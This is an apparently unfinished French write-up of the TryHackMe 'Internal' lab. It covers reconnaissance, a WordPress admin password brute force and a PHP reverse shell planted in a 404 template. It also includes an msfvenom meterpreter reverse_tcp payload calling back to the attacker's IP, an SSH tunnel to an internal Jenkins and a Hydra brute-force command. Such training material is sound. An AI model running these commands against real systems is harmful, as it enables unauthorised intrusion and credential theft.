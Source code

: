 # Room : Internal
IP :

je finirais le write-up plus tard...

# Enum / Reconnaissance
## Nmap
```
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-04 08:59 EDT
Nmap scan report for 10.10.116.71
Host is up (0.033s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
|_  256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.10 seconds
```
## Gobuster
```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/blog                 (Status: 301) [Size: 311] [--> http://10.10.116.71/blog/]
/wordpress            (Status: 301) [Size: 316] [--> http://10.10.116.71/wordpress/]
/javascript           (Status: 301) [Size: 317] [--> http://10.10.116.71/javascript/]
/phpmyadmin           (Status: 301) [Size: 317] [--> http://10.10.116.71/phpmyadmin/]
/server-status        (Status: 403) [Size: 277]
```
En refaisant un gobuster sur la page /blog je trouve d'autre information utile:
```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/wp-content           (Status: 301) [Size: 322] [--> http://10.10.116.71/blog/wp-content/]
/wp-includes          (Status: 301) [Size: 323] [--> http://10.10.116.71/blog/wp-includes/]
/wp-admin             (Status: 301) [Size: 320] [--> http://10.10.116.71/blog/wp-admin/]
```

En testant la page wp-admin avec un compte admin/admin, j'ai l'identifiant : admin
Celui-ci me retourne cette erreur : 
**Error: The password you entered for the username admin is incorrect. Lost your password?**
Il conforme que c'est bien **admin**

## WPScan
```
[+] Headers
 | Interesting Entry: Server: Apache/2.4.29 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://10.10.116.71/wordpress/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://10.10.116.71/wordpress/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://10.10.116.71/wordpress/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.4.2 identified (Insecure, released on 2020-06-10).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://10.10.116.71/wordpress/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=5.4.2'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://10.10.116.71/wordpress/, Match: 'WordPress 5.4.2'
```

WordPress version 5.4.2

# Exploit Wordpress
Je trouve le compte admin du wordpress après l'avoir bruteforce

[+] Performing password attack on Wp Login against 1 user/s
[SUCCESS] - admin / my2boys                               

On edite la page 404 et on y met un reverse shell php

On provoque une erreur 404 et le shell s'ouvre.

```
┌──(kali㉿kali)-[~/Challenge/TryHackMe/Internal]
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.14.59.209] from (UNKNOWN) [10.10.116.71] 55198
Linux internal 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 13:29:46 up 33 min,  0 users,  load average: 0.00, 0.19, 0.26
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data

```

Pour le fun on test de créer un shell en .elf avec msfvenom
puis on récupère un shell stable avec metasploit

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.14.59.209 LPORT=4445 -f elf > shell.elf
```
```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.14.59.209:4445 
[*] Sending stage (1017704 bytes) to 10.10.116.71
[*] Meterpreter session 1 opened (10.14.59.209:4445 -> 10.10.116.71:57692) at 2023-09-04 09:33:19 -0400

meterpreter >
```

# Privesc to user !
Sur le serveur on trouve un fichier **wp-save.txt** dans le dossier **/opt** qui semble interessant.

```
total 16
drwxr-xr-x  3 root root 4096 Aug  3  2020 .
drwxr-xr-x 24 root root 4096 Aug  3  2020 ..
drwx--x--x  4 root root 4096 Aug  3  2020 containerd
-rw-r--r--  1 root root  138 Aug  3  2020 wp-save.txt
cat wp-save.txt
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bubb13guM!@#123
```
effectivement, il y a des cred dedans !
# Privesc to root !
Ce compte permet un acces via SSH avec la session de Aubreanna

1er flag présent sur le bureau :
```
THM{*************}
```

Linpeas trouve :

```
╔══════════╣ Checking Pkexec policy
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe#pe-method-2                                                                      
                                                                                                                                                                                
[Configuration]
AdminIdentities=unix-user:0
[Configuration]
AdminIdentities=unix-group:sudo;unix-group:admin
```

Mais inutile.

Dans le home de Aubreanna il y a un fichier **jenkins.txt** qui contient :
```
Internal Jenkins service is running on 172.17.0.2:8080
```
Il y a bien quelques chose quand on curl dessus:

```
<html><head><meta http-equiv='refresh' content='1;url=/login?from=%2F'/><script>window.location.replace('/login?from=%2F');</script></head><body style='background-color:white; color:white;'>


Authentication required
<!--
You are authenticated as: anonymous
Groups that you are in:
  
Permission you need to have (but didn't): hudson.model.Hudson.Read
 ... which is implied by: hudson.security.Permission.GenericRead
 ... which is implied by: hudson.model.Hudson.Administer
-->

</body></html>
```
On va renvoyer le flux web vers moi via un SSH
```
ssh -L 4545:172.17.0.2:8080 aubreanna@10.10.116.71
```
Maintenant, depuis le navigateur, avec l'url **localhost:4545** on vois le résultat de **172.17.0.2:8080**.

Après une longue recherche infructueuse, je me laisse tenter par un brute force, sur la docs, il précise que l'identifiant par defaut est **admin**. On va bruteforce ce compte !

on va utiliser Hydra pour cela :

```
hydra -l admin -P /home/kali/Wordlist/rockyou.txt 10.10.116.71 -s 4545 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=PASS^&from=%2F&Submit=Sign+in:F=Invalid username or password" -I
```

